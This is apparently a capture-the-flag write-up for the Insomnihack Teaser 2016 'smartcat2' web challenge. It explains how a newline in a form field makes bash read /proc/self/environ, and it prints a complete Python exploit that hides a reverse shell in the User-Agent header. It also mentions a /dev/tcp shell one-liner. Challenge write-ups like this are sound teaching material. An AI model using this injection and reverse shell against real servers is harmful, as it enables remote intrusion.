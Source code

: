 Insomnihack Teaser 2016 – smartcat2 – 50 pt Web Challenge
---------------------------------------------------------

Part 2 of this crazy cat challenge was a bit of a stumper, until I recalled some old school web techniques that haven’t really worked for a while now. In this challenge we need to get a shell and get the flag from /home/smartcat/. Without a “space” character that sounds tricky. I know a pretty trivial way to get a shell without the space character “bash</dev/tcp/<ip>/<port>” but that was not working on this box.

Instead I needed another way to get data onto the system, this turned out pretty simple… “/proc/self/environ”…

This contains several user controlled environment variables, such as the contents of “User-Agent:” header. Better still, the contents of User-Agent is not restricted in any way. So I simply used this exploit to send myself a reverse shell:
```
#!/usr/bin/python

import requests

URL = 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi'

HOST = '<yourIP>'	# your IP for the reverse shell
PORT = '4443'		# port you're listening on

s = requests.Session()

# Python backdoor in the user-agent with a # at the end
headers = { 'User-Agent' : ';python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("' + HOST + '",' + PORT + '));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\' #' }

# the old /proc/self/environ trick
payload = { 'dest' : chr(0xa) + 'bash</proc/self/environ'}

print "[*] Exploiting..." 
print "[+] When you get the reverse shell, issue these commands:"
print "[+] cd /home/smartcat"
print "[+] ./readflag"
print "[+] Type \"Give me a...\"<enter>"
print "[+] wait 2 seconds..."
print "[+] Type \"... flag!\"<enter>"
r = s.post(URL, data=payload, headers=headers)
```
Note the presence of the “#” mark at the end of our Python reverse shell. This is key as it prevents Bash from continuing to interpret the /proc/self/environ file and running into a set of parenthesis that cause it to fail with a syntax error.

We get our reverse shell. We learn that /home/smartcat/flag is not readable by our user. Fair enough, that would be too easy. However there’s a “readflag” setuid program that can read it for us. We need to have an interactive shell though. 

After learning all of this, and getting my shell, I was able to retrieve the flag!
